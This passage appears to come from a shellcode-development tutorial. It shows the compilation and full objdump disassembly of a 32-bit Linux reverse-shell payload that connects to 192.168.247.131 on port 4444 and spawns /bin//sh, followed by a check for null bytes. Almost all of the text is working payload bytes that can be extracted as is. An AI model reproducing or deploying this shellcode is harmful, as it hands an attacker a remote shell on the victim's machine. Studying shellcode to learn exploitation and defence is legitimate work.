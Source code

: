 Compile it:
```shell
./compile.sh reverse_shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```
Check for null bytes:
```shell
objdump -d reverse_shell -M intel

reverse_shell:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	31 db                	xor    ebx,ebx
 8048084:	31 c9                	xor    ecx,ecx
 8048086:	31 d2                	xor    edx,edx
 8048088:	b0 66                	mov    al,0x66
 804808a:	b3 01                	mov    bl,0x1
 804808c:	51                   	push   ecx
 804808d:	53                   	push   ebx
 804808e:	6a 02                	push   0x2
 8048090:	89 e1                	mov    ecx,esp
 8048092:	cd 80                	int    0x80
 8048094:	89 c7                	mov    edi,eax
 8048096:	b0 66                	mov    al,0x66
 8048098:	43                   	inc    ebx
 8048099:	68 c0 a8 f7 83       	push   0x83f7a8c0
 804809e:	66 68 11 5c          	pushw  0x5c11
 80480a2:	66 53                	push   bx
 80480a4:	43                   	inc    ebx
 80480a5:	89 e1                	mov    ecx,esp
 80480a7:	6a 10                	push   0x10
 80480a9:	51                   	push   ecx
 80480aa:	57                   	push   edi
 80480ab:	89 e1                	mov    ecx,esp
 80480ad:	cd 80                	int    0x80
 80480af:	89 fb                	mov    ebx,edi
 80480b1:	31 c9                	xor    ecx,ecx
 80480b3:	b1 02                	mov    cl,0x2

080480b5 <dup>:
 80480b5:	b0 3f                	mov    al,0x3f
 80480b7:	cd 80                	int    0x80
 80480b9:	49                   	dec    ecx
 80480ba:	79 f9                	jns    80480b5 <dup>
 80480bc:	52                   	push   edx
 80480bd:	68 2f 2f 73 68       	push   0x68732f2f
 80480c2:	68 2f 62 69 6e       	push   0x6e69622f
 80480c7:	89 e3                	mov    ebx,esp
 80480c9:	89 d1                	mov    ecx,edx
 80480cb:	b0 0b                	mov    al,0xb
 80480cd:	cd 80                	int    0x80
 ```
 No null bytes so we are good keep moving forward.
 